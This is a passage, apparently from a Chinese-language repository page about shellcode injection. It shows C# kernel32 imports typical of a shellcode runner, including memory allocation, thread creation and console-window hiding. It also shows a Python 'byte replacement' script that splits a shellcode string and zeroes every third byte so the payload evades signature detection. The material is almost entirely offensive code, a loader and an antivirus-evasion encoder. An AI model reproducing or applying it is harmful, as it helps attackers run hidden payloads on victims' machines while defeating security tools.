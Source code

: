 ```C#
        [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
        [DllImport("kernel32")]
        public static extern Boolean VirtualProtect(IntPtr lpAddress, UInt32 dwSize, uint flNewProtect, uint lpflOldProtect);
        [DllImport("kernel32")]
        private static extern bool VirtualFree(IntPtr lpAddress, UInt32 dwSize, UInt32 dwFreeType);
        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);
        [DllImport("kernel32")]
        private static extern bool CloseHandle(IntPtr handle);
        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
        [DllImport("kernel32")]
        private static extern IntPtr GetModuleHandle(string moduleName);
        [DllImport("kernel32")]
        private static extern UInt32 GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32")]
        private static extern UInt32 LoadLibrary(string lpFileName);
        [DllImport("kernel32")]
        private static extern UInt32 GetLastError();
        [DllImport("kernel32")]
        static extern IntPtr GetConsoleWindow();
        [DllImport("User32")]
        private static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);
    }
}
```
#### 字节替换
```c
//encrypt
import sys
def main(argv):
    filename = argv[1]
    with open(filename,"r") as f:
        st = f.read()
        s = st.split(" \"")[1].split("\";")[0].replace("\\x"," ")[1:]
        tmp_1 = ""
        tmp_2 = ""
        s = s.split(" ")
        for i in range(len(s)):
            if i % 3 == 0:
                tmp_1 = tmp_1 + "\\x" + s[i]
                s[i] = "00"

        t = "\\x".join(s)
        print("unsigned char data[] = \"\\x"+t+"\";")
        print("char a1[] = \""+tmp_1+"\";")

if __name__ == "__main__":
    main(sys.argv)
```


[go/shellcode_inject/virtual>>]: generate